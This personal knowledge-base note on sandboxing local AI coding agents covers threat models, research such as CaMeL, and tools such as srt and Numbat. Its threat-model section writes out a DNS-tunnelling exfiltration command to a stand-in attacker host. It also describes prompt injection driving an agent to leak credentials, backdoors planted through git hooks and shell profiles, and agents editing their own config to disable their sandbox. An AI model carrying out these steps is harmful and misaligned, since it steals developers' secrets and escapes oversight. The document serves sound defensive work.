

Created: 2026-11-18 19:15
#note

**Local Coding Agent Runtime Security and Sandboxing** addresses the architectural challenge of executing autonomous coding and workflow agents (such as Claude Code, Mario Zechner's Pi, OpenAI Codex CLI, Antigravity, or local automation engines like n8n) on a developer's personal workstation without exposing the host operating system to data exfiltration, credential theft, or destructive state modifications.

While [[AI Agent Security]] maps the broad taxonomy of agentic threats and the [[Agentic SDLC]] defines organizational verification pipelines, local runtime security focuses on **harness-agnostic process confinement, capability-based secret brokering, and deterministic policy enforcement** at the operating-system boundary. Following the philosophy of [[Build to Delete]], decoupling the security perimeter from any single vendor harness allows an engineer to swap the underlying agent (`claude`, `pi`, `codex`, or custom scripts) while preserving an identical, portable security posture.

## The Local Execution Threat Model

When an agent executes locally under a developer's standard POSIX user account, it inherits the user's **ambient authority**. Unlike remote SaaS chatbots, a local agent with shell (`bash`) and file-system access operates adjacent to high-value host assets:
- **Global Credential Stores**: SSH private keys (`~/.ssh`), cloud provider credentials (`~/.aws`, `~/.config/gcloud`), GitHub CLI tokens (`~/.config/gh`), GPG keyrings (`~/.gnupg`), browser session databases, and the macOS Keychain.
- **Project-Local Secrets**: Unencrypted `.env` files, database connection strings, and API tokens stored inside working directories.
- **Local Network & Loopback Services**: Unauthenticated services bound to `127.0.0.1` or Unix domain sockets (such as the Docker daemon `/var/run/docker.sock`, local databases, or workflow runners like n8n).

### Coupled Failure Modes: Why Filesystem and Network Isolation Must Coexist

As demonstrated in Anthropic's engineering analysis of local agent sandboxing, **filesystem isolation and network isolation cannot function independently**:
1. **Filesystem Isolation Without Network Isolation**: If an agent is restricted from writing outside the project directory but retains arbitrary outbound network access, an [[Prompt Injection|indirect prompt injection]] (triggered via an untrusted GitHub issue, web page, or dependency README) can read sensitive files inside the workspace (or permitted read paths) and exfiltrate them via HTTP POST, webhook requests, or DNS tunneling (`dig <hex-secret>.attacker.com`).
2. **Network Isolation Without Filesystem Isolation**: If outbound network access is blocked during the agent run but the agent can write to unscoped filesystem paths, a compromised agent can plant a persistent backdoor (such as modifying `~/.zshrc`, `~/.gitconfig`, or `.git/hooks/pre-commit`) that executes with full network access the next time the human developer opens a terminal.

### Intra-Workspace Escalation Paths

Granting an agent unrestricted read/write access to the current Git repository folder (`/path/to/repo`) is insufficient if critical control subdirectories within the workspace remain writable:
- **`.git/hooks/` and `.git/config`**: Modifying Git hooks or settings such as `core.fsmonitor`, `core.pager`, or `core.sshCommand` achieves arbitrary code execution outside the sandbox whenever the developer runs a standard `git` command.
- **Agent and IDE Configuration Directories (`.agents/`, `.claude/`, `.vscode/`, `.cursor/`)**: If an agent can modify its own harness configuration or `.vscode/tasks.json` (`runOn: folderOpen`), it can silently disable sandbox restrictions or whitelist destructive tools for subsequent turns.

## Foundational Research, Whitepapers, and Standards

Several academic papers, industry whitepapers, and security frameworks establish the theoretical and practical foundation for local agent confinement.

### 1. CaMeL: Defeating Prompt Injections by Design (Google DeepMind & ETH Zurich, 2025)
Debenedetti, Shumailov, Tramèr, et al. (presented at IEEE SaTML) demonstrate that prompt-level guardrails cannot reliably separate instructions from data inside a single autoregressive model. **CaMeL (Capabilities for Machine Learning)** wraps the LLM in a protective system layer:
- **Control Flow vs. Data Flow Separation**: A privileged LLM translates the trusted user query into a restricted, deterministic Python-like control-flow graph executed by a custom interpreter. Untrusted data retrieved from tools or files is processed by a quarantined LLM that can only populate data variables—it can never alter the control-flow graph or invoke new tools.
- **Capability Metadata**: Every data value carries explicit **capabilities** (provenance tags and security policies specifying which principals or tools are permitted to consume that data). Before any side-effecting tool call (such as sending an HTTP request or writing a file), the interpreter deterministically checks whether the data capabilities permit the flow, blocking unauthorized exfiltration on the **AgentDojo** benchmark.

### 2. IsolateGPT: Execution Isolation for LLM-Based Agent Systems (Wu et al., NDSS 2025)
Researchers from Washington University in St. Louis and the University of Washington observe that multi-tool LLM agents resemble early operating systems prior to process isolation, where all applications shared a single address space. **IsolateGPT** introduces an execution-isolation architecture that separates the central planner (Hub) from mutually distrusting tools and plugins (Spokes), enforcing strict inter-domain communication boundaries and per-tool permission manifests.

### 3. Anthropic Sandbox Runtime (`srt`) Architecture Whitepaper
Anthropic's engineering documentation for Claude Code and `@anthropic-ai/sandbox-runtime` defines a dual-boundary OS-level confinement model designed for developer workstations:
- **Zero-Overhead OS Primitives**: Uses macOS Seatbelt (`sandbox-exec`) and Linux `bubblewrap` (`bwrap`) rather than full virtual machines for sub-second CLI tool startup.
- **Proxy-Mediated Egress**: Blocks all direct network sockets inside the sandbox (`deny network*`), routing permitted traffic exclusively through a Unix domain socket connected to a host-side filtering proxy that enforces domain allowlists (`pypi.org`, `registry.npmjs.org`, `api.github.com`).

### 4. Perplexity Numbat: Cross-Harness Endpoint Detection, CEL Policy, and Forensics
Developed by Perplexity AI and contributed to the Open Secure AI Alliance (Apache 2.0), **Numbat** addresses "accidental meltdowns" and unauthorized behavior across heterogeneous local coding agents (Claude Code, Codex, and custom harnesses) on macOS, Linux, and Windows endpoints:
- **Cross-Harness Event Normalization**: Ingests telemetry from local agent hooks/plugins, on-disk session artifacts, and OpenTelemetry (`OTLP/HTTP`) streams into a unified event schema independent of any single vendor harness.
- **Local CEL Rule Engine**: Evaluates both single-step actions and multi-step behavioral chains (such as an agent reading an SSH key and subsequently initiating an outbound transfer) using over 50 Common Expression Language (CEL) rules. Rules ship in monitor-only mode by default and can be promoted (`enforce: true`) to synchronously block dangerous actions via pre-execution hooks.
- **Retrospective Forensic Scanning (`numbat scan`)**: Parses historical on-disk session artifacts to reconstruct incident timelines, applying automated secret redaction and exporting portable, SHA-256-manifested NDJSON evidence bundles.

### 5. OWASP Agentic AI & Non-Human Identity (NHI) Frameworks
- **OWASP Top 10 for Agentic Applications (`ASI01–ASI10`)** and **Securing Agentic Applications Guide**: Mandates runtime sandboxing for `ASI05` (Unexpected Code Execution), external policy validation for `ASI02` (Tool Misuse), and least-privilege capability tokens for `ASI03` (Identity & Privilege Abuse / [[Excessive Agency]]).
- **OWASP Top 10 for Non-Human Identities (NHI)**: Addresses secret sprawl, over-privileged Personal Access Tokens (PATs), and lack of revocation cascades when autonomous agents act on behalf of human engineers.

## Open-Source Tooling and Repository Landscape

To build a portable, harness-agnostic security environment, practitioners combine tools across four decoupled layers.

| Layer | Tool / Repository | Platform & Primitives | Primary Role |
| :--- | :--- | :--- | :--- |
| **1. OS Process & Network Sandbox** | [`anthropic-experimental/sandbox-runtime`](https://github.com/anthropic-experimental/sandbox-runtime) (`srt`) | macOS (`sandbox-exec`) & Linux (`bwrap`) + Local Proxy | Wraps *any* CLI agent (`srt "pi ..."`, `srt "claude ..."`, `srt "python ..."`) in declarative filesystem and domain-allowlist rules (`~/.srt-settings.json`). |
| **1. OS Process Wrapper** | [`akitaonrails/ai-jail`](https://github.com/akitaonrails/ai-jail) & [`navikt/cplt`](https://github.com/navikt/cplt) | macOS (`sandbox-exec`) & Linux (Landlock LSM, `seccomp-bpf`, `bwrap`) | Lightweight CLI wrappers confining arbitrary coding agents to the current working directory while masking `$HOME` dotfiles (`~/.ssh`, `~/.aws`). |
| **2. MicroVM / Container Isolation** | [`apple/container`](https://github.com/apple/container), **OrbStack**, & [`lima-vm/lima`](https://github.com/lima-vm/lima) | macOS (`Virtualization.framework`) & Linux KVM | Hardware-virtualized Linux microVMs and containers for running multi-service agent workflows (such as **n8n**), untrusted repositories, or browser automation. |
| **3. MCP Gateway & Isolation** | [`stacklok/toolhive`](https://github.com/stacklok/toolhive) (`thv`) | Docker / Podman / Kubernetes + OIDC/OAuth | Runs each [[MCP Protocol]] server in an isolated, minimal container with scoped network egress and out-of-band secret injection; works across all MCP clients. |
| **3. Secret Brokering** | **1Password CLI (`op run`)** & [`99designs/aws-vault`](https://github.com/99designs/aws-vault) | macOS Keychain / Secure Enclave / Biometric IPC | Eliminates plaintext `.env` files on disk by resolving `op://` secret references into memory or proxy headers only after biometric/process verification. |
| **4. Endpoint EDR & Cross-Harness Policy** | **Numbat** (Perplexity AI / Open Secure AI Alliance) | macOS / Linux / Windows (Static Go Binary + CEL Engine + OTLP) | Normalizes hooks, OTLP streams, and on-disk transcripts across multiple coding agents; enforces 50+ CEL security rules and runs retrospective forensic scans (`numbat scan`). |
| **4. Traceability & Policy** | [`langfuse/langfuse`](https://github.com/langfuse/langfuse) & [`open-policy-agent/opa`](https://github.com/open-policy-agent/opa) | Self-hosted Docker / OpenTelemetry + Rego | Deterministic pre-execution policy evaluation (OPA) and immutable OpenTelemetry run ledgers (`Langfuse`) across CLI agents and n8n workflows. |

## Designing a Harness-Agnostic Local Agent Environment (macOS Reference Architecture)

When the goal is to run multiple coding agents (such as Antigravity, Claude Code, or Mario Zechner's **Pi**) alongside workflow automation tools (**n8n**) on a single personal macOS workstation, security must be enforced **outside the agent binary**. If you switch from Antigravity to `pi` tomorrow, the security wrapper, credential broker, and network proxy remain completely unchanged.

### Pillar 1: The Universal CLI Wrapper (`srt` + Protected Subpaths)
Instead of relying on each agent's proprietary permission toggles, wrap the invocation of any CLI coding agent in Anthropic's open-source `@anthropic-ai/sandbox-runtime` (`srt`) or a custom macOS `sandbox-exec` profile:
- **Default-Deny Read on Secrets**: Explicitly block read access (`denyRead`) to `~/.ssh`, `~/.aws`, `~/.config/gh`, `~/.gnupg`, `~/.netrc`, and project-level `.env` files.
- **Default-Deny Write Outside Workspace**: Allow writes (`allowWrite`) strictly to the current project directory `$PWD` and `/tmp`, while explicitly **carving out read-only protection (`denyWrite`) inside `$PWD`** for `.git/hooks`, `.git/config`, `.agents`, `.claude`, and `.pre-commit-config.yaml`.
- **Portability**: An alias or shell function (`safe-agent pi` or `srt --settings ~/.config/agent-sandbox.json pi`) applies the exact same kernel enforcement whether the binary is `pi`, `claude`, `pytest`, or a raw Python evaluation script.

### Pillar 2: Out-of-Band Secret Brokering (Zero Secrets in Agent Context)
An agent should never be able to run `cat .env` or `env` and see raw API keys:
- **Replace `.env` with `.env.tpl`**: Keep only secret templates in the repository (`LINEAR_API_KEY="op://Personal/Linear/api-key"`).
- **Brokered Execution via MCP or Proxy**: When the agent needs to interact with external services (such as Linear, GitHub, or a database), expose that capability through a containerized [[MCP Protocol]] server managed by **Stacklok ToolHive (`thv`)** or a host-side CLI wrapper. The MCP container holds a short-lived, narrowly scoped token injected by 1Password CLI (`op run`), while the coding agent only sends structured JSON-RPC tool calls and never sees the credential.
- **Dedicated Least-Privilege Git Identity**: Configure agent runs to use a fine-grained GitHub Personal Access Token or GitHub App installation token scoped strictly to feature branches of non-critical repositories, blocking direct pushes or force-pushes to `main`.

### Pillar 3: MicroVM Isolation for `n8n` and Multi-Service Agent Testing
When testing event-driven agent workflows in **n8n** (or running untrusted third-party code), process-level Seatbelt sandboxing is best complemented by a lightweight Linux microVM on Apple Silicon (via **OrbStack**, **Lima**, or Apple's `container` runtime):
- **Isolated Network Bridge**: Run `n8n` inside a dedicated container network with no access to the macOS host's `localhost` services (`host.docker.internal` disabled by default) and no mount of the macOS home directory.
- **Sandboxed Code Execution Nodes**: Configure n8n task runners in external/isolated mode with restricted environment variable access (`N8N_BLOCK_ENV_ACCESS_IN_NODE=true`), preventing JavaScript or Python code nodes inside an n8n workflow from inspecting the n8n host environment or credentials store.
- **Shared Observability**: Point both your CLI coding agents (`pi`, `claude`) and n8n's AI agent execution traces to a local, self-hosted [[Langfuse]] instance (or append-only JSONL run ledgers) so every prompt, tool call, and outbound request across both environments is auditable in one place.

## References

1. [CaMeL: Defeating Prompt Injections by Design — Debenedetti, Shumailov, Tramèr et al. (Google DeepMind & ETH Zurich, 2025)](https://arxiv.org/abs/2503.18813)
2. [IsolateGPT: An Execution Isolation Architecture for LLM-Based Agent Systems — Wu et al. (NDSS 2025)](https://arxiv.org/abs/2403.04960)
3. [Anthropic Sandbox Runtime (`@anthropic-ai/sandbox-runtime` / `srt`) — GitHub Repository](https://github.com/anthropic-experimental/sandbox-runtime)
4. [Claude Code Sandboxing: Filesystem and Network Isolation Architecture — Anthropic Engineering](https://docs.anthropic.com/en/docs/claude-code/security)
5. [Stacklok ToolHive (`thv`): Secure Containerized Manager and Gateway for MCP Servers — GitHub Repository](https://github.com/stacklok/toolhive)
6. [ai-jail: Sandbox Wrapper for AI Coding Agents (Landlock, Bubblewrap, Seatbelt) — GitHub Repository](https://github.com/akitaonrails/ai-jail)
7. [AgentDojo: A Dynamic Environment to Evaluate Prompt Injection Attacks and Defenses for LLM Agents — ETH Zurich SPY Lab](https://github.com/ethz-spylab/agentdojo)
8. [OWASP GenAI Security Project: Agentic AI Threats and Mitigations & Top 10 for Agentic Applications](https://genai.owasp.org/)
9. [Securing Agents with Numbat — Perplexity AI Security Research](https://research.perplexity.ai/articles/securing-agents-across-perplexity%E2%80%99s-client-endpoints-with-numbat) — _Saved in Cybersecurity (`#llmsecurity`, `#harness`)_
10. [seojoonkim/prompt-guard: Advanced prompt injection defense system](https://github.com/seojoonkim/prompt-guard) — _Saved in Cybersecurity (`#llmsecurity`)_

## Related Topics

[[Agentic SDLC]], [[AI Agent Security]], [[Excessive Agency]], [[Prompt Injection]], [[Prompt Injection defense measures]], [[Harness Engineering]], [[Build to Delete]], [[MCP Protocol]], [[Secure SDLC]], [[Supply Chain Security]], [[Langfuse]], [[LLM Observability]]

#### Tags
#aisecurity #agentic_ai #sandboxing #coding_agents #mcp #cybersecurity #devsecops #owasp #harness_engineering
